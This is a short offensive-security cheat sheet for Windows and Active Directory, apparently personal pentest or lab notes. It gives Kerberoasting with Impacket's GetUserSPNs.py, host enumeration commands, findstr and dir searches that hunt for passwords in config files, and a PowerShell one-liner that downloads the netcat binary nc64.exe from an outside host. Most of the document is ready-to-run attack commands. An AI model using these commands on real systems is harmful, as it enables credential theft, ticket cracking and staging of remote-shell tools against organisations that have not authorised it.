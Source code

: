 
# Kerberoasting

Get SPN's (servicies) from DC. Get TGS of the servicies

> Impacket
```
GetUserSPNs.py $domain/$user:#password -dc-ip $ip_addres_of_dc -request
```



# Enumeration
## Basics

```
whoami 
systeminfo 
net users 
net localgroups
net user user1 - more info about user
wmic qfe get Caption,Description,HotFixID,InstalledOn - gather how well system is patched
```

## Look for open credentials

```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

# Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```

## File download
```
(New-Object System.Net.WebClient).DownloadFile('http://10.10.15.139:8080/nc64.exe', 'nc64.exe')
```
